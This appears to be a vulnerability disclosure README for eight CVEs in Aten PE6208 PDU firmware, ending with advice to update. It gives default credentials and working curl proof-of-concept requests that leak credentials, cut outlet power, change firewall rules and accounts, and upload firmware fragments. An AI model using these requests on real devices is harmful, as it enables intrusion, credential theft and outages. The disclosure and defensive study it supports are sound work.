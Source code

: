 # Aten PE6208 vulnerabilities

This repo contains the description of the vulnerabilities identified
in the Aten PE6208 PDU firmware. The exploitation methods described were
tested for versions v2.3.228 and v2.4.232 of the PE6208 firmware. According
to Aten, the vulnerabilities are fixed in the v2.4.239 firmware version.

# The vulnerabilities

## 1. Default credentials (CVE-2023-43844, CVE-2023-43845)
_A user isn't suggested to change default credentials_
The device can be managed via web interface or via telnet. Both methods use
privileged accounts with the default credentials presented below:
```
	administrator : password # for web
	teladmin : telpwd        # for telnet
```
The firmware doesn't force user to change default credentials.

## 2. Incorrect Access Control (CVE-2023-43846)
_Unauthenticated logs access_
The logs on device can be accessed without authentication via GET request:
```
curl -s -i -k 'https://192.168.0.60/Log_information/Systemlog.csv'
```
The logs contain such information as usernames present on the device
and IP addresses of the device users.

## 3. Incorrect Access Control (CVE-2023-43843)
_Unprivileged user can other users' credentials_
An attacker provided with a valid unprivileged session ID can read credentials
of all accounts, including privileged ones, via GET request.
In such case the user management function checks for two exact things:
if the SID provided is valid and if the UID provided is _8_ which is
for the administrator account.
To exploit the vulnerability, the following GET request may be used:
```
curl -s -i -k 'https://192.168.0.60/xml/accounts.xml?SID=1234567890abcdef&SIndex=0&UID=8
```
The credentials obtained this way may be used to login to the device
web interface or to perform password spraying attacks on the rest
of the infrastructure.

## 4. Incorrect Access Control (CVE-2023-43847)
_Unprivileged user can access outlets management_
An attacker provided with a valid unprivileged session ID can control PDU
outlets via POST request.
In such case the outlet management function checks for two exact things:
if the SID provided is valid and if the UID provided is _8_ which is
for the administrator account.
The parameters of the outlet management function look like _outcont40X_, where
_X_ is the outlet number. The value could be _0_ or _1_ meaning disable or enable.
To turn an outlet off the following POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/outlet_access/connections.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'outcont401=0'
```
To turn an outlet on the following POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/outlet_access/connections.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'outcont401=1'
```
Turning an outlet off may result in DoS of systems relying on the PDU.

## 5. Incorrect Access Control (CVE-2023-43848)
_Unprivileged user can access firewall management_
An attacker provided with a valid unprivileged session ID can control
the device local firewall rules via POST request.
For the sake of better undestanding the request structure, the fields are
described below.
The _devsecuflg07_ filed is a flag indicating if the firewall is enabled.
If the value is _0_, the firewall is disabled, and otherwise if it's set to _1_.
The IP addresses below are grouped by pairs just like they're handled
by the device's firmware. The first address in a pair is the starting point
of the range and the second is the ending point of the range. When the range
is specified, the firewall excludes or includes the whole range from
or to the addresses allowed on the device.
```
	'devsecuip00': '0.0.0.0', 'devsecuip05': '0.0.0.0',
	'devsecuip01': '0.0.0.0', 'devsecuip06': '0.0.0.0',
	'devsecuip02': '0.0.0.0', 'devsecuip07': '0.0.0.0',
	'devsecuip03': '0.0.0.0', 'devsecuip08': '0.0.0.0',
	'devsecuip04': '0.0.0.0', 'devsecuip09': '0.0.0.0'
```
Like in the cases above, the firewall management function checks for two exact
things: if the SID provided is valid and if the UID provided is _8_ which is
for the administrator account.
Finally, to alter the local firewall of the PDU, the following POST request
may be used:
```
curl -s -i -k 'https://192.168.0.60/device_management/security.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'devsecuip01=0.0.0.0&devsecuip06=0.0.0.0'
```
The parameters of the request above may be adapted depending on the result wanted.

## 6. Incorrect Access Control (CVE-2023-43842)
_Unprivileged user can alter the device user accounts_
An attacker provided with a valid unprivileged session ID can add, remove
or change existing accounts of unprivileged users on the device via POST request.
The parameters of the user management function look like _uXYZ_.
The _YZ_ is the number reffering to the target user.
The _X_ could be _1_, _2_ or _3_:
	1. _1_ means the value of the parameter is the username supplied.
	2. _2_ means the value of the parameter is the password supplied.
	3. _3_ means the value of the parameter is the action requested.
The action value could be _0_ to remove an account or _1_ to add an account.
If an account already present is to be added, it's just updated with the
credentials supplied.
To add or update an account with username _user_ and with password _pass_
a POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=1&u103=test&u203=test&'
```
To remove an account number _03_ a POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=0&'
```

## 7. Incorrect Access Control (CVE-2023-43849)
_Unprivileged user can upload firmware fragments_
The firmware upload process is based on sending payload fragments via POST
requests without any authentication. An attacker can use it to interfere with
a firmware update process like this:
```
curl -s -i -k 'https://192.168.0.60/xml/firmware_upgrade.xml?SID=1234567890abcdef&CheckVersion=0&Name=administrator'
curl -s -i -k 'https://192.168.0.60/maintenance/fwupgrade.cgi' -X POST -d '------WebKitFormBoundary1234567890ABCdef\nContent-Disposition: form-data; name="FWfileName"; filename="payload.bin"\nContent-Type: application/octet-stream\n$FRAGMENT
```
Looped requests like this may be used to upload modified firmware containing
malicious code resulting in fully compromised device.
After such a manipulation a legitimate firmware upload may be not possible.

## 8. Improper Input Validation (CVE-2023-43850)
_Unprivileged user can cause partial DoS of web interface_
If an attacker provided with a valid unprivileged session ID adds a user with
a name containing opening angle bracket, a partial DoS of web interface
happens. While such a user is present, administrator can't see list of users
or edit accounts. Also logs are not available for viewing while containing
a record with such a name of user.
To cause the behavior described, the following POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=1&u103=<&u203=test&'
```
Since this is a particular case of the account altering, the user management
function still checks for two exact things: if the SID provided is valid
and if the UID provided is _8_ which is for the administrator account.

## Remediation
Since according to Aten the issues are solved in v.2.4.239 firmware version,
to avoid potential risks a customer should update their device firmware
to this version. The firmware is avalaible at the [official site](https://www.aten.com/global/en/products/power-distribution-&-racks/rack-pdu/pe6208/) of Aten
at the _Support and Downloads_ tab.

